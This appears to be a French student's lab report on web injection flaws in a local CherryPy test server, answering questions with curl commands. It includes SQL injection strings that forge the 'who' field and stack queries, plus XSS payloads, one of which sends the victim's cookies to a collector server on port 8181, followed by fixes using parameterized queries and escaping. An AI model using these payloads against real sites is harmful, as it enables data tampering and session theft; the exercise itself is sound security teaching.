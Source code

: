 # Rendu "Injection"

## Binome

AMEVIGBE Yao Isidore
Nom, Prénom, email: ___


## Question 1

* Quel est ce mécanisme?
Ce mécanisme est la vérification de la chaîne de caractères à insérer par une regex. 
qui vérifie si la chaîne de caractère ne contient pas de caractères spéciaux.

* Est-il efficace? Pourquoi? 

Non ! car une injection peut probablement contenir des conditions. 
Par ailleurs sur le navigateur web on peut toute fois désactiver le javascript pour faire des injections **sql**

## Question 2

* Votre commande curl

Voici la commande curl pour pouvoir envoyer des requêtes en POST: 

```sh 
$ curl -X POST  -d "chaine=<la chaine à insérer>&submit=OK"  http://localhost:8080/
```

Exemple d'insertion
===================

```sh 
$ curl -X POST  -d "chaine=2 ; SELECT * from &submit=OK"  http://localhost:8080/
```

Insertion
=========

```sh 
$ <p>
Liste des chaines actuellement insérées:
<ul>
<li>isi envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res80 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res90 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li>2  envoye par: 127.0.0.1</li>

``` 

On voit avec la dernière ligne que la donnée a bien été inséré.

## Question 3

* Votre commande curl qui va permettre de rajouter une entree en mettant un contenu arbitraire dans le champ 'who'

```sh 
$ curl -X POST  -d "chaine=hack','192.152.145.18') #"  http://localhost:8080/
```

* Expliquez comment obtenir des informations sur une autre table
Pour obtenir des informations sur une autre table on peut réaliser cette commande en la combinant avec une autre en insérant un **;** 
à la fin de la première requête pour ainsi éxécuter la seconde.

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.

Implémentation 
==============

```py 
    def index(self, **post):
        cherrypy.response.cookie["ExempleCookie"] = "Valeur du cookie"
        cursor = self.conn.cursor()
        if cherrypy.request.method == "POST":
            requete = "INSERT INTO chaines (txt,who) VALUES(%s,%s)"
            values = (post["chaine"], cherrypy.request.remote.ip)
            print("req: [" + requete + "]")
            cursor.execute(requete, values)
            self.conn.commit()

        chaines = []
        cursor.execute("SELECT txt,who FROM chaines");
        for row in cursor.fetchall():
            chaines.append(row[0] + " envoye par: " + row[1])

        cursor.close()
        return '''
```

Explication
===========

Pour la corriger on a utilisé une requête paramétré composé de deux chaînes de caractères. 
Le premier spécifiant la colonne **post["chaine"]** et la colonne **cherrypy.request.remote.ip**

## Question 5

* Commande curl pour afficher une fenetre de dialog. 
```sh 
$ curl -X POST  -d "chaine=<script>alert(\"hello\")</script>"  http://localhost:8080/
```

* Commande curl pour lire les cookies
```sh 
$ curl -X POST  -d "chaine=<script>document.location=\"http://localhost:8181?chaine=\".concat(document.cookie)</script>"  http://localhost:8080/
```

Pour récupérer les cookies il suffit de lancer la commande curl vers un serveur sur le port 8181. On peut même evaluer le cookie et lui passer cela en paramètre.
## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.

Implémentation
==============

Pour eviter les failles **xss** il faut échapper les données lors de l'insertions et lors de l'affichage. 
Lors de l'affichage car c'est en ce moment que les données sont exécutés par le navigateur et ainsi eviter que ces données soient transmises aux malveillants. 

Pour l'insertion un code javascript peut eventuellement exécuter des codes malveillants nottament pour supprimer des données dans la BDD en réalisant des requêtes.

```py 
    def index(self, **post):
        cherrypy.response.cookie["ExempleCookie"] = "Valeur du cookie"
        cursor = self.conn.cursor()
        if cherrypy.request.method == "POST":
            requete = "INSERT INTO chaines (txt,who) VALUES(%s,%s)"
            values = (escape(post["chaine"]), cherrypy.request.remote.ip)
            print("req: [" + requete + "]")
            cursor.execute(requete, values)
            self.conn.commit()

        chaines = []
        cursor.execute("SELECT txt,who FROM chaines");
        for row in cursor.fetchall():
            chaines.append(escape(row[0]) + " envoye par: " + row[1])

        cursor.close()
        return '''
```
